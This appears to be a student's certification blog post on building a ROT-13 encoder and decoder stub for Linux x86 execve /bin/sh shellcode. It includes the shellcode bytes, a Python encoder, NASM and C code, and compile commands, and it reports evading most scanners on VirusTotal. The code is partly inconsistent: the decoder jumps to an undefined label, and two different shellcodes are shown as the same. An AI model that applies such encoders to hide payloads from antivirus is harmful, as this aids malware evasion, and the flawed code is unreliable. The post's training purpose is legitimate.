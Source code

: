 ```yaml
---
layout: page
title: ROT-13 Shellcode encoder - SLAE32 Fourth Exam Assignment
permalink: /encoder/
---
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 4 of the SLAE32 Exam, which is about creating Custom Shellcode encoder.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/encoder.jpg">
</p>

## Assignment 4 - Custom Shellcode encoder


There are 2 main instructions provided to us in this assignment:
- [ ] Create a custom encoding scheme for your shellcode
- [ ] Create a working PoC with the execve-stack shellcode presented and execute.

## Creating the execve ROT-13 Encoded shellcode

First of all, as presented in our task, we will use the execve-stack shellcode which is presented below.

```c
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Our shellcode is simple stack-based execve SYSCALL that executes /bin/sh

The reason for us to implement encoding scheme on our shellcode is in-order to make it harder for AV’s and IDS to match the new shellcode that we craft by making it obfuscated.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/virus.png">
</p>

### Encoding our shellcode

As for the XOR encoding method, it's already populated throughout the shellcoding world and most AV's and IDS's are well aware of those encoding schemes.

I have decided to choose to encode my shellcode with the ROT-13 technique.

<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/ROT13.png">
</p>


I have created rot13encoder.py in order to craft the encoded shellcode within the ROT-13 technique

the code is presented below:


```python
#!/usr/bin/env python
# Filename: rot13encoder.py
# Author: Gal Nagli
 
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
rot = 13
full = 256 - rot
 
encodedc = ""
encodednasm = []
 
for x in bytearray(shellcode):
    if x < full:
        encodedc += '\\x%02x' % (x + rot)
        encodednasm.append('0x%02x' % (x + rot))
    else:
        encodedc += '\\x%02x' % (rot - 256 + x)
        encodednasm.append('0x%02x' % (rot - 256 + x))
 
print "Encoded Representation for C file:\n%s\n" % encodedc
 
print "Encoded Representation for nasm file:\n%s\n" % ','.join(encodednasm)

```

Next, i will excecute the python script and i will get as output my encoded execve-stack shellcode with easily crafted representation for our decoder.nasm file and shellcode.c file.

```python
python rot13encoder.py
```

![encoder](/images/encoderrot13.png)

### Creating the decoder stub

Now, after crafting the encoded shellcode, i will create my decoder.nasm file. 

Which will decode the shellcode and craft the "decoder stub" which will append right before our shellcode.

```c
# Filename: decoder.nasm
# Author: Gal Nagli
global _start
section .text
_start:
	jmp short call_shellcode
decoder:
	pop esi ; pop the address of the shellcode in the ESI register
	xor ecx, ecx ; zeroing out the ECX register
	mov cl, 25 ; counter = 25 (length of the shellcode, number of loops)
	
decode:
	cmp byte [esi], 0xD ; compare if it's possible to substract the value 13 from the byte
	jl max_reached ; jump if less -> full_reached
	sub byte [esi], 0xD ; substract the value 13
	jmp short shellcode
	
full_reached:
	xor edx, edx ; zeroing out the EDX register
	mov dl, 0xD ; set the value 13 into the EDX register
	sub dl, byte [esi] ; subtract 13 - byte value of the shellcode
	xor ebx, ebx ; zeroing out the EBX register
	mov bl, 0xff ; 0xff = 255 (making it two-staged to not encounter null-byte)
	inc ebx ; = 256
	sub bx, dx ; 256 - (13 - byte value of the shellcode)
	mov byte [esi], bl ; move bl into the ESI register
	
shellcode:
	inc esi ; move to the next byte
	loop decode ; loop "decode"
	jmp short EncodedShellcode
	
call_shellcode:
	call decoder
	EncodedShellcode: db 0x3e,0xcd,0x5d,0x75,0x3c,0x3c,0x80,0x75,0x75,0x3c,0x6f,0x76,0x7b,0x96,0xf0,0x5d,0x96,0xef,0x60,0x96,0xee,0xbd,0x18,0xda,0x8d

```

Now, i will compile the decoder.nasm file and i will recieve our shellcode with the decoderstub beforehand.

```bash
./compile.sh decoder
```

![decoder](/images/decoder.png)


Now, i will insert the crafted shellcode into our shellcode.c program, as the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \

// Decoder Stub:
"\xeb\x24\x5e\x31\xc9\xb1\x19\x80\x3e\x0d\x7c\x05\x80\x2e\x0d\xeb\x10\x31\xd2\xb2\x0d\x2a\x16\x31\xdb\xb3\xff\x43\x66\x29\xd3\x88\x1e\x46\xe2\xe3\xeb\x05\xe8\xd7\xff\xff\xff"

// Encoded Shellcode:
"\x3e\xcd\x5d\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x5d\x96\xef\x60\x96\xee\xbd\x18\xda\x8d";


main()
{

	printf("Shellcode Length:  %d\n", strlen(shellcode));

	int (*ret)() = (int(*)())shellcode;

	ret();

}

```

### Creating the executeable

```c
gcc shellcode.c -fno-stack-protector -z execstack -o rot13execve
```

```c
./rot13execve
```


![execve](/images/execverot13.png)

And that's it! we have a running ROT-13 encoded /bin/sh shellcode.

### Uploading our shellcode to virustotal:
Uploading the crafted ROT-13 encoded execve shellcode to VirusTotal returned the following:

![vt](/images/virustotal.png)

Although it was kinda expected because i have used a public known encoding scheme, 17/75 detection ratio is good enough for me at this stage :-)
Thank you very much for sticking around!

## References

* ROT-13 technique - <https://he.wikipedia.org/wiki/ROT13>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here:
<https://github.com/NagliNagli/SLAE/tree/master/ROT13-Execve-Shellcode>

Cheers,
Gal.
